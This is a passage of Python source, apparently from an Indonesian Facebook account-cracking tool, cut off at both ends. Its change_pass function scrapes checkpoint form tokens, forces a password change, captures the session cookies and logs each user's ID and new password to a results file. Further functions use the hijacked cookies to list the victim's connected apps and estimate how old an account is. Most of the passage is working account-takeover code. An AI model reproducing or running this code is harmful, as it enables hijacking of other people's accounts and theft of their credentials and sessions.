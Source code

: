             break
        elif _gimana_ in ['2','02','002','N','n']:open('auto_ganti.txt','w').write('No');pass
        else:jalan('%s [%s!%s] %sINCORRECT CONTENT'%(M,P,M,P));menu()
        break
def change_pass(user,_req_ses_,_response_,link_2):
    global ok,cp
    files_ok = "OK/%s.txt"%(tanggal)
    try:_new_pass_ = open('_new_pass_.txt','r').read()
    except:_new_pass_ = 'azimvau-_'
    _password_ = ''.join(_new_pass_);_result_ok_ = "\r %s[%sSUCCESSFULL%s] %s • %s%s%s          "%(H,P,H,user,_password_,tahun(user),P);_button_dev_ = ["submit[Yes]","nh","fb_dtsg","jazoest","checkpoint_data"]
    for _azimvau_ in _response_("input"):
        if _azimvau_.get("name") in _button_dev_:data_change_1.update({_azimvau_.get("name"):_azimvau_.get("value")})
    _ganti_pass_ = _req_ses_.post(host+link_2.get("action"),data=data_change_1).text;_result_pass_ = par(_ganti_pass_,"html.parser");_link_3_ = _result_pass_.find("form",{"method":"post"});_button_dev__2_ = ["submit[Next]","nh","fb_dtsg","jazoest"]
    if "Create a new password" in re.findall("\<title>(.*?)<\/title>",str(_ganti_pass_)):
        for _cici_ in _result_pass_("input"):
            if _cici_.get("name") in _button_dev__2_:data_change_2.update({_cici_.get("name"):_cici_.get("value")})
        data_change_2.update({"password_new":_password_});_ses_final_ = _req_ses_.post(host+_link_3_.get("action"),data=data_change_2);_cookies_ = (";").join([ "%s=%s" % (key, value) for key, value in _req_ses_.cookies.get_dict().items()]);__cookies__ = cvt_cookies(_cookies_);cek_apk(_result_ok_,__cookies__);ok.append("%s•%s"%(user,_password_));_azimvau_dapunta_(files_ok,"a+").write("%s•%s\n"%(user,_password_));cp -= 1;pass
    else:pass

### Cek Aplikasi
def cek_apk(h_ok,_azimvau_):
    apk = [];ses_ = requests.Session()
    cek_pilih_opsi = open('muncul_opsi.txt','r').read()
    url = "https://mbasic.facebook.com/settings/instant_games/tabbed/?tab=active";dat_game = ses_.get(url,cookies={'cookie':_azimvau_});datagame = par(dat_game.content,'html.parser');form_    = datagame.find('form',method='post')
    for asu in form_.find_all("h3"):
        try:celeng = asu.find('span').text;apk.append('\n   Connect: '+celeng)
        except:pass
    url2 = "https://mbasic.facebook.com/settings/instant_games/tabbed/?tab=inactive";dat_game = ses_.get(url2,cookies={'cookie':_azimvau_});datagame = par(dat_game.content,'html.parser');form_    = datagame.find('form',method='post')
    for asu in form_.find_all("h3"):
        try:celeng = asu.find('span').text;apk.append('\n   Connect: '+celeng)
        except:pass
    if cek_pilih_opsi == 'Yes':print(h_ok+''.join(apk));print('')
    elif cek_pilih_opsi == 'No':print(h_ok+''.join(apk))

### Cek Tahun Pembuatan
def tahun(fx):
    if (re.findall("[a-zA-Z]",str(fx))):tahunz=''
    else:
        if len(fx)==15:
            if fx[:10] in ['1000000000']       :tahunz = ' • 2009'
            elif fx[:9] in ['100000000']       :tahunz = ' • 2009'
            elif fx[:8] in ['10000000']        :tahunz = ' • 2009'
            elif fx[:7] in ['1000000','1000001','1000002','1000003','1000004','1000005']:tahunz = ' • 2009'
            elif fx[:7] in ['1000006','1000007','1000008','1000009']:tahunz = ' • 2010'
            elif fx[:6] in ['100001']          :tahunz = ' • 2010/2011'
            elif fx[:6] in ['100002','100003'] :tahunz = ' • 2011/2012'
            elif fx[:6] in ['100004']          :tahunz = ' • 2012/2013'
            elif fx[:6] in ['100005','100006'] :tahunz = ' • 2013/2014'
            elif fx[:6] in ['100007','100008'] :tahunz = ' • 2014/2015'